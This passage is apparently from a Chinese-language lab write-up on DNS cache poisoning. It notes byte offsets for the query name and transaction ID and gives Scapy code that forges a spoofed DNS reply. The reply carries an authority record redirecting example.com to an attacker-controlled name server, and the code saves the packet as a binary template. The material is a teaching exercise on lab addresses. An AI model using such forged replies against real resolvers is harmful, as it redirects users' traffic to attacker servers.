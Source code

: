由于请求中xxxxx的名字需要改，我们要知道这个名字在二进制文件中的地址，用bless可以看到在0x29，10进制为41
![query中名字地址](../img/dns-query-name.png)

### 伪造DNS回复包

```python
from scapy.all import *

targetName="xxxxx.example.com"
targetDomain="example.com"
attackerNS ="ns.attacker32.com"

dstIP="192.168.230.154"
srcIP='192.168.230.156'                                    

ip = IP(dst=dstIP,src=srcIP,chksum=0)
udp = UDP(dport=33333,sport=53,chksum=0)

Qdsec = DNSQR(qname=targetName)
Ansec = DNSRR(rrname=targetName,type='A',rdata='1.2.3.4',ttl=259200)
NSsec = DNSRR(rrname=targetDomain,type='NS',rdata=attackerNS,ttl=259200)
dns   = DNS(id=0xAAAA,aa=1,rd=1,qr=1,qdcount=1,ancount=1,nscount=1,arcount=0,qd=Qdsec,an=Ansec,ns=NSsec)
Replypkt = ip/udp/dns

with open('reply.bin','wb') as f:
	f.write(bytes(Replypkt))
```

![reply中地址](../img/dns-reply-name.png)
同理，找到响应包中transaction ID为0xAAAA的地址为28， 两个二级域名的地址分别为41、64